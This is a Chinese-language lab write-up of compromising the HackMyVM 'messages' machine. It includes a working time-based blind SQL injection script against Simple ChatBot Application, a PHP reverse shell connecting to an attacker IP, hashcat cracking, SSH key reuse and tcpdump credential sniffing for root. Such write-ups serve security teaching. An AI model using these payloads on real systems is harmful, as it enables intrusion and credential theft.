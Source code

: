 ```yaml
---
title: hmv-messages
copyright: true
date: 2022-02-16 04:04:18
tags: 靶机渗透
---
```

难度适中但综合性很强的一个靶机  
<!--more-->
![1.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/1.png?raw=true)  
1.上来先三板斧：探测/端口/扫目录  
```
fping -a -g 10.10.10.0/24 -q > ip.txt
```
![2.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/2.png?raw=true)  
```
nmap -sVC -p1-65535 10.10.10.157 > port.txt
```
![3.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/3.png?raw=true)  
```
python3 dirsearch.py -u https://10.10.10.157 -e php
```
![4.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/4.png?raw=true)  
2.查看页面，源码审计  
web页面是一个聊天机器人服务，简单测下有个xss，但目测没法利用。  
![5.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/5.png?raw=true)  
在exploit-db上搜索Simple ChatBot Application,有三个漏洞：  
	1. sql盲注，经过测试发现可以使用 (√)  
	2. RCE需要登入后台上传文件触发  (?)  
	3. xss直接忽略   (x)  
![6.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/6.png?raw=true)  
按照漏洞说明抓下请求头，放到sqlmap里sqlmap -r msg.txt跑下，只跑出information_schema一个数据库，information_schema里也没啥东西，检查了几遍也不知道问题出在哪，这里就自己撸个脚本吧。  
![7.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/7.png?raw=true)  
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 2022/2/16 01:36
# @Author  : lockcy
# @File    : blindinjection.py

import requests
import time

url = "https://10.10.10.157/chatbot/classes/Master.php?f=get_response"
requests.packages.urllib3.disable_warnings()
result = ""
for a in range(1, 100):
    start = 32
    end = 128
    while start < end:
        time1 = time.time()
        mid = (start + end) //2
        header = {
            "Host": "10.10.10.157",
            "Content-Type": "application/x-www-form-urlencoded",
        }
        # database chatbot
        # data = "message=' union select 1,(if(ascii(substr(database(),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        # table unanswered,users,questions,responses,system_info,frequent_asks
        # data = "message=' union select 1,(if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='chatbot'),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        # id,firstname,lastname,username,password,avatar,last_login,date_added,date_updated
        # data = "message=' union select 1,(if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        # admin  0192023a7bbd73250516f069df18b500
        data = "message=' union select 1,(if(ascii(substr((select group_concat(username, password) from users),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        html = requests.post(url=url, data=data, headers=header, verify=False)
        time2 = time.time()
        if time2 - time1 > 2:
            end = mid
        else:
            start = mid + 1
    result = result + chr(start-1)
    print(result)
```
后来发现在exploit-db提供的源码网站里可以下到源码https://www.sourcecodester.com/php/14788/simple-chatbot-application-using-php-source-code.html，
源码里也有默认用户名密码TAT（高情商：盲注下确保密码正确，低情商：白忙活）  
![8.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/8.png?raw=true)  
somd5跑下加密后的密码，获得simple chatbot后台登录用户名和密码admin admin123  
![9.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/9.png?raw=true)  
登入发现可以利用之前exploit-db搜到的RCE，这里三个地方都有上传点，我选了SystemLogo（后面两个上传点总是遇到文件消失的问题），从代码逻辑看，没有任何过滤，只是在文件名前加了格式化的时间戳。  
![10.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/10.png?raw=true)  
上传成功，可以执行些简单的php命令，但无法使用system，推测disable_function 禁用了，但exec没禁用  
![11.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/11.png?raw=true)  
直接上传反弹shell 执行， kali  nc -lvvp 8888监听  
revshell.php  
```
<?php
    $sock = fsockopen("10.10.10.128", 8888);
    $descriptorspec = array(
            0 => $sock,
            1 => $sock,
            2 => $sock
    );
    $process = proc_open('/bin/sh', $descriptorspec, $pipes);
    proc_close($process);
```
**getshell**
![12.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/12.png?raw=true)  
userflag在/home/ruby/userflag.txt中，但www-data没有权限读，在同目录下的notes文件中发现提示：  
![13.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/13.png?raw=true)  
利用配置文件中的数据库用户名和密码登入数据库，在vmail.mailbox表中发现了相关内容，ruby正好是我们想越权的账户，且notes中似乎也暗示ruby存在弱密码。  
![14.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/14.png?raw=true)  
利用hashcat爆破下弱口令，获得ruby的邮箱账号和密码ruby@messages.hmv   Ruby.r123  
![15.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/15.png?raw=true)  
登入https://10.10.10.157/mail/邮件应用发现ruby用户的ssh私钥  
![16.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/16.png?raw=true)  
保存至id_rsa，登入靶机，获取user权限  
![17.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/17.png?raw=true)  
```
find / -perm -4000 2>/dev/null
```
![18.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/18.png?raw=true)  
发现tcpdump有root权限，想起之前提示的靶机有check mail的功能，利用tcpdump嗅探root用户检查邮件功能的数据包  
```
tcpdump -i lo -G 30 -w data.cap
```
在数据包中发现root用户在使用pop3协议登录时使用的密码，登入靶机，获取root权限  
![19.png](https://github.com/lockcy/penetration-kb/tree/master/pic/hackmyvm%E9%9D%B6%E6%9C%BAmessages/19.png?raw=true)  

